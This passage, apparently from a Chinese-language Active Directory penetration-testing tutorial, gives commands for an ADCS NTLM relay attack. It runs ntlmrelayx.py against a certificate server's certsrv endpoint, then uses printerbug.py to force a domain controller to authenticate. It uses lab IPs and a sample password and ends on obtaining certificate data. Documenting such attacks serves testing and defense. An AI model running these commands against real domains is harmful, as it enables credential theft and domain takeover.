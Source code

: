 ```plain
#格式：
python3 ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs 

#示例：
python3 ntlmrelayx.py -t http://192.168.174.160/certsrv/certfnsh.asp -smb2support --adcs
```

[![](assets/1699407498-be3dad0ca67b02a938136c68fccf7692.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144203-989bf14e-7c6f-1.png)  
Step 4：利用打印机服务漏洞强制认证  
a、使用printerbug  
[https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)

```plain
#格式：
python printerbug.py domain/username:password@<targetName or Address> <hostname to connect to>

#示例:
python3 printerbug.py hacke/testuser:'test@123'@dc.hacke.testlab 192.168.174.129
```

[![](assets/1699407498-ad6c65f07f67c5a28721ebc2b078296d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144227-a6b291fc-7c6f-1.png)  
成功获取到证书数据信息：  